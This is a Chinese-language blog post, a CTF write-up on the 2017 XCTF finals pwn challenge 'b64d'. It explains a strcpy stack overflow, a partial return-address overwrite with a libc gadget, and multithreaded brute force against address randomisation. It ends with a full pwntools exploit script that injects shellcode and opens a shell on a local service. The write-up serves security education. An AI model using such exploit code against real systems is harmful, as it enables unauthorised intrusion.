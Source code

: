 ```yaml
---
layout:     post
title:      "2017XCTF决赛题 -- b64d"
subtitle:   "从一道看似普通的栈溢出开始的探索"
date:       2017-10-01 22:46:25
author:     "Carter"
header-img: "img/post-bg-rwd.jpg"
tags:
    - Fuzz
    - pwn
---
```


### 写在前面
	前段时间有幸代表战队参加了2017年XCTF总决赛，和国内国外的大佬们有了现场过招的机会。该次决赛赛制也很有意思，不再采用两天都是攻防赛的形式，我是引入了目前IT圈内的大明星 -- 人工智能。总决赛总共两天，第一天是各个战队使用自己开发的AI工具，对主办方放出的题目进行自动化的fuzz，只有当fuzz出该题目的崩溃后，人类选手才能得到该题的二进制程序文件，进行分析和利用的开发；第二天则是过去的老套路，放出了4道pwn题（此次没有web题，心疼web选手），进行现场的攻防竞赛。

	此篇博文，不是挑选比赛中最难的题目进行说明，而是拿一道我觉得最有意思的题目，依此作为研究的起点，进行一些探索。这道题是我们的AI工具在第一天比赛开始后几分钟就fuzz出崩溃的一道题，名称叫做b64d，很明显的一个栈溢出漏洞，本来以为会轻松利用，结果后续研究过程却很有意思。下面由我细细道来。

###  一. 漏洞分析

   漏洞存在于main函数内，允许读入2048个base64编码后的字符串，将解码后的字符串v5通过strcpy函数复制到栈上，导致了栈溢出。
![img](https://raw.githubusercontent.com/carterMgj/blog_img/master/2017-10-01-b64d/1.png)

​      程序是amd64结构，保护措施只开了堆栈地址随机化
![img](https://raw.githubusercontent.com/carterMgj/blog_img/master/2017-10-01-b64d/2.png)

### 二. 难点探寻

​     这个简单的栈溢出题目为什么有趣呢？原因在于当我们覆盖其返回地址为shellcode地址时，strcpy遇到'\x00'发生了截断，因此不能够完全覆盖返回地址到bss段存放shellcode的地址。其返回地址覆盖前是一个so库中的地址，因此一旦修改错误程序就会跳到未知的地方，从而崩溃。
![img](https://raw.githubusercontent.com/carterMgj/blog_img/master/2017-10-01-b64d/3.png)

​      因此，我们只能在原本的一个so库地址上进行小范围修改。而so库的基址每次都是随机的，我们把返回地址覆盖到哪里？这是亟待解决的问题

### 三. 解决方法
1. 我们从上图中可以看到，在栈顶往下4个地址处，有一个main函数开始的地址。试想：如果我们把返回地址修改成这个地址，再让main函数再运行一次，到ret时的返回地址会不会发生变化呢？（抱着''死马当作活马医的心态"试试看）  
  于是在gdb中手动修改了ret为main函数开始的地址，再一次回到ret处。此时可喜的看到，ret地址已经是0x0了，此时我们就可以随意覆盖返回地址到任意地方了
  ![img](https://raw.githubusercontent.com/carterMgj/blog_img/master/2017-10-01-b64d/4.png)

2. 那么该如何完成第一步我们的假设？很容易想到在第一次到达ret时，需要将程序的控制流返回到“pop pop pop ret”上，执行完这串gadget后，程序就刚好可以返回到栈顶往下第4个地址 – main函数起始处。

3. 要在so库中，找到一个'pppr'地址并不难，需要我们斟酌的是：

 - 选取哪个so库中哪个'pppr'序列？
 - 栈溢出时，覆盖ret本来的地址时，覆盖几个字节？
 - 并且同时需要考虑到：strcpy在拷贝时，会在末尾自动添加一个字节的'\x00'  

4. 先来通过实践，看看在开启地址随机化的情况下，so库的地址范围有什么变化：
0x00007f739fea0000 --  0x00007f73a0060000  
0x00007f938edf9000 --  0x00007f938efb9000  
可以看出，每一次so库的基址，后面6个字节都是随机的；在同一次运行过程中，不考虑有进位的情况下，so库地址后3个字节是变化的，前面的字节是相同的。这将作为我们研究的理论基础。

5. 在第一次覆盖ret时，此时该地址中存放的是  __libc_start_main+240 这一个地址，在我本机的so库计算偏移为：0x20830.  设想一下以下情况的合理性：在0x20830附近（因为要防止差得太多会导致进位的问题，因此在附近找最保险）寻找gadget，我们通过ROPgadget找到了一个0x202e3的gadget满足我的条件，我将ret地址的后两个字节通过栈溢出覆盖为‘\x02\xe3’，由于strcpy的原因，因此原来的ret地址会被覆盖为‘0x00007fxxxxxx0002e3’  
   接着我们逆向思考，当so库的基址是满足什么条件时，其0x202e3偏移的地址会满足‘0x00007fxxxxxx0002e3’。不难得出结论，即：so库基址的后6位是0xfe0000。从第4步的实验中可以轻松得到，此种概率为 1/4096

6. 如果第5步成功的命中，那么接下来就好办了：再一次运行main函数，利用栈溢出覆盖ret为bss段存放shellcode的地址即可。

### 四. 增加爆破效率
   由于命中的概率为 1/4096，是一个很小的概率，因此如何增加爆破效率是我们要解决的问题。在此我做了以下两点工作：

 - 同时开启了40个线程，用并发加快命中概率
 - 每次运行时，先读取 '/proc/pid/maps' 文件，检查so库加载基址是否为 0xfe0000，如果不是则退出，缩短了单个程序运行时间
     ![img](https://raw.githubusercontent.com/carterMgj/blog_img/master/2017-10-01-b64d/5.png)
        最终跑出来的时间还是和人品有关系，但在40个线程的情况下，最多用时10分钟也都能跑出来了。

### 五. 利用代码
```python
from pwn import *
import base64
import time
import datetime
import threading

flag=0

def monitor(pid):
	f = open('/proc/{}/maps'.format(pid))
	data = f.read().split('\n')
	f.close()
	for item in data:
		if '/lib/x86_64-linux-gnu/libc-2.23.so' in item:
			print item[0:item.find('-')]
			if item[6:12]=='fe0000':
				return True
			return False

def pwn():
	global flag
	#context.log_level = 'debug'
	while 1:
		if flag:
			exit(0)

		io = remote('127.0.0.1',2333)
		try:
			pid = pidof('b64d')[0]
			print 'pid = {}'.format(pid)
			if monitor(pid):
				print 'Find it'
				flag = 1
				#gdb.attach(pid,open('debug'))

			padding = 'A'*56
			shellcode = asm(shellcraft.amd64.linux.sh(),arch='amd64')


			payload1 = padding + '\xe3\x02'
			payload1 = base64.b64encode(payload1)
			io.sendline(payload1)
			io.recv(1024)

			#time.sleep(1)

			shellcode_addr = 0x602119
			payload2 =  base64.b64encode('a'*56 + p64(shellcode_addr)) + '\x00' + shellcode
			io.sendline(payload2)
			io.recv(1024)
	
			io.interactive()
			# 	break
		except KeyboardInterrupt:
			io.close()
			break
		except:
			io.close()
			pass
		

if __name__=='__main__':
	thread = []
	starttime = datetime.datetime.now()


	for i in range(40):
		t = threading.Thread(target=pwn,args=())
		thread.append(t)
		t.start()

	for i in thread:
		i.join()

	endtime = datetime.datetime.now()
	print (endtime - starttime).seconds
```